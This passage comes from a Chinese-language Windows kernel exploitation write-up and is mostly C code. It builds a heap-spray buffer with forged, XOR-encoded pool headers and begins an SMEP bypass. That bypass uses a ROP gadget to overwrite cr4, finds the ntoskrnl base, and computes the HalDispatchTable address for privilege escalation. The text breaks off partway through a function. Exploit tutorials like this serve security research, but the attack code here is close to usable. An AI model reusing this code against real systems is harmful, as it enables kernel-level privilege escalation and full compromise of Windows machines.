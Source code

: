 通过上面的泄露我们就可以继续完善堆喷的代码了，现在就可以在堆喷函数中加上对堆头的操作了

```
memset(o2str, 'x41', OVERLAY2_SIZE - _HEAP_BLOCK_SIZE);
*(DWORD *) o2str        = 0x00000000;
*(DWORD *)(o2str+4)     = 0x00000000;
*(DWORD *)(o2str+8)     = 0x00010000 + OVERLAY2_SIZE;
*(DWORD *)(o2str+12)    = 0x10000000 + ((OVERLAY1_SIZE+MENU_SIZE+_HEAP_BLOCK_SIZE)/0x10);
string clearh, newh;
o2str[11] = o2str[8] ^ o2str[9] ^ o2str[10];
clearh.append(o2str, 16);
newh = XOR(clearh, xorKey);
memcpy(o2str, newh.c_str(), 16);
RtlInitLargeUnicodeString(&amp;o2lstr, (WCHAR*) o2str, (UINT) - 1, OVERLAY2_SIZE - _HEAP_BLOCK_SIZE - 2);
```

### <a class="reference-link" name="Bypass%20SMEP"></a>Bypass SMEP

对于SMEP的绕过主要是对cr4寄存器的修改，这里我的rop是用的`nt!KiConfigureDynamicProcessor+0x40`片断实现对cr4寄存器的修改，代码实现如下

```
DWORD64 ntoskrnlbase()
`{`
    LPVOID lpImageBase[0x100];
    LPDWORD lpcbNeeded = NULL;
    TCHAR lpfileName[1024];

    //Retrieves the load address for each device driver in the system
    EnumDeviceDrivers(lpImageBase, (DWORD64)sizeof(lpImageBase), lpcbNeeded);

    for (int i = 0; i &lt; 1024; i++)
    `{`
        //Retrieves the base name of the specified device driver
        GetDeviceDriverBaseNameA(lpImageBase[i], (LPSTR)lpfileName, 0x40);

        if (!strcmp((LPSTR)lpfileName, "ntoskrnl.exe"))
        `{`
            return (DWORD64)lpImageBase[i];
        `}`
    `}`
    return NULL;
`}`

DWORD64 GetHalOffset()
`{`
    // ntkrnlpa.exe in kernel space base address
    DWORD64 pNtkrnlpaBase = ntoskrnlbase();
    printf("[+] ntkrnlpa base address is : 0x%pn", pNtkrnlpaBase);
    // ntkrnlpa.exe in user space base address
    HMODULE hUserSpaceBase = LoadLibraryA("ntoskrnl.exe");

    // HalDispatchTable in user space address
    DWORD64 pUserSpaceAddress = (DWORD64)GetProcAddress(hUserSpaceBase, "HalDispatchTable");

    printf("[+] pUserSpaceAddress address is : 0x%pn", pUserSpaceAddress);

    DWORD64 hal = (DWORD64)pNtkrnlpaBase + ((DWORD64)pUserSpaceAddress - (DWORD64)hUserSpaceBase) ;

    return (DWORD64)hal;
`}`

BOOL SMEP_bypass_ready()
`{`
```